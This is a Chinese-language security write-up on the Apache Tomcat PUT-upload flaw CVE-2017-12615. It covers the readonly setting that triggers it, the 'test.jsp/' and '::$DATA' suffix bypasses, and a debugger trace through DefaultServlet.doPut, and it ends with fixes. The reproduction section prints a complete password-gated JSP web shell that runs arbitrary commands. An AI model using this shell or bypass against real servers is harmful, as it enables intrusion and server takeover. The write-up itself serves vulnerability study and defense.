# Tomcat 远程代码执行漏洞分析（CVE-2017-12615） #


## 1. 漏洞描述 ##

* 漏洞简述： 当tomcat启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。
* CVE编号：CVE-2017-12615
* 影响版本：Apache Tomcat 7.0.0-Apache Tomcat 7.0.81


## 2. 漏洞简介 ##

  2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，漏洞CVE编号:CVE-2017-12615和CVE-2017-12616,该漏洞受影响版本为7.0-7.81之间，官方评级为高危，在一定条件下，攻击者可以利用这两个漏洞，获取用户服务器上 JSP 文件的源代码，或是通过精心构造的攻击请求，向用户服务器上传恶意JSP文件，通过上传的 JSP 文件 ，可在用户服务器上执行任意代码，从而导致数据泄露或获取服务器权限，存在高安全风险。

## 3. 漏洞分析 ##

**注： 漏洞触发条件**

​	CVE-2017-12615漏洞利用需要将 readonly 初始化参数由默认值设置为 false，经过实际测试，Tomcat 7.x版本内web.xml配置文件内默认配置无readonly参数，需要手工添加，默认配置条件下不受此漏洞影响。

​	Apache Tomcat默认开启PUT方法，org.apache.catalina.servlets.DefaultServlet的readonly默认为true，而且默认没有在conf/web.xml里写，需要手工添加并且改为false，才可以测试。

​	主要在conf文件夹的web.xml文件中添加readonly参数并设置值为false：

```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```

### 3.1 漏洞原理分析 ###

​	设置好web.xml文件中的参数，重启tomcat。创建一个简单的JAVA Web工程，通过该tomcat进行发布，用eclipse在tomcat源码中设置断点进行debug调试。

​	在浏览器中访问工程，通过burpsuite进行抓包，构造恶意payload进行攻击：



​	点击go进行数据包转发，在eclipse中设置断点，可以看到首先进入HttpServlet.java文件的doput方法。

```xml
<!-- The mapping for the default servlet -->
<servlet-mapping>
    <servlet-name>default</servlet-name>
    <url-pattern>/</url-pattern>
</servlet-mapping>

<!-- The mappings for the JSP servlet -->
<servlet-mapping>
    <servlet-name>jsp</servlet-name>
    <url-pattern>*.jsp</url-pattern>
    <url-pattern>*.jspx</url-pattern>
</servlet-mapping>
```
​	我们可以看到配置文件中主要定义了default servlet 和 JSP servlet两个servlet，DefaultServlet的作用是处理静态文件 ，JspServlet 的作用是处理jsp 与jspx 文件的请求，同时DefaultServlet 可以处理 PUT 或 DELETE请求。

​	可以看出即使设置readonly为false，默认tomcat也不允许PUT上传jsp和jspx文件的，因为后端都用org.apache.jasper.servlet.JspServlet来处理jsp或是jspx后缀的请求了，而JspServlet中没有PUT上传的逻辑，PUT的代码实现只存在于DefaultServlet中。

​	这个漏洞的根本是通过构造特殊后缀名，绕过了tomcat检测，让它用DefaultServlet的逻辑去处理请求，从而上传jsp文件。

目前主要两种方法：

* test.jsp::$DATA
* test.jsp/

利用这两种姿势PUT请求tomcat的时候，骗过tomcat而进入DefaultServlet处理的逻辑。

我们构造的payload是put方法，所以直接断点进入了 doput：



​	直接f5进入doput方法，可以看到直接进入了DefaultServlet.java的doput方法中：



​	我们可以看到readonly值为false，走读源代码发现，当我们把readonly设置为true时，直接报错并返回,resp.sendError(HttpServletResponse.SC_FORBIDDEN)。附上整个doput源代码。

```java
@Override
protected void doPut(HttpServletRequest req, HttpServletResponse resp)
    throws ServletException, IOException {

    if (readOnly) {
        resp.sendError(HttpServletResponse.SC_FORBIDDEN);
        return;
    }

    String path = getRelativePath(req);

    boolean exists = true;
    try {
        resources.lookup(path);
    } catch (NamingException e) {
        exists = false;
    }

    boolean result = true;

    // Temp. content file used to support partial PUT
    File contentFile = null;

    Range range = parseContentRange(req, resp);

    InputStream resourceInputStream = null;

    // Append data specified in ranges to existing content for this
    // resource - create a temp. file on the local filesystem to
    // perform this operation
    // Assume just one range is specified for now
    if (range != null) {
        contentFile = executePartialPut(req, range, path);
        resourceInputStream = new FileInputStream(contentFile);
    } else {
        resourceInputStream = req.getInputStream();
    }

    try {
        Resource newResource = new Resource(resourceInputStream);
        // FIXME: Add attributes
        if (exists) {
            resources.rebind(path, newResource);
        } else {
            resources.bind(path, newResource);
        }
    } catch(NamingException e) {
        result = false;
    }

    if (result) {
        if (exists) {
            resp.setStatus(HttpServletResponse.SC_NO_CONTENT);
        } else {
            resp.setStatus(HttpServletResponse.SC_CREATED);
        }
    } else {
        resp.sendError(HttpServletResponse.SC_CONFLICT);
    }
 }
```

​	继续debug到bind函数：



​	进入bind函数，继续debug，进入到file函数，获取put方法的文件名及绝对路径：



​	继续进入file函数，debug跟进，可以看到:                            

this.path = fs.resolve(parent.path,fs.normalize(child));



​	通过normalize函数，对文件名进行字符串处理，我们跟进normalize函数，通过normalize函数将test.jsp/转换成test.jsp：



​	函数执行完成，我们看一下之前的path没有了/符号：



​	继续执行，通过rebind方法，将代码写入到文件中：



​	通过os.write(buffer, 0, len);将buffer数组中的内容写入到相应path的文件中。



​	debug完成，成功写入。



## 4. 漏洞复现

### 4.1 搭建JAVA web服务器

​	eclipse直接创建Dynamic web Project工程，在启动工程时，选用我们自己的含有漏洞的tomcat版本，将tomcat/conf/web.xml添加readonly参数：

```xml
<init-param>
	<param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```
### 4.2 构造payload

1.启动工程，在浏览器访问，通过burpsuite进行抓包：



2.转发数据包，右键Send to Repeater，构造payload，实现任意命令执行：



```java
<%@ page language="java" import="java.util.,java.io." pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```

### 4.3 任意命令执行

​	点击go按钮，创建一句话木马文件，创建成功后，访问相应文件，执行任意命令：



## 5. 修复方案

* 使用tomcat8及以上版本
* 在web.xml文件中将readonly参数删掉，或者将readonly参数设置为true
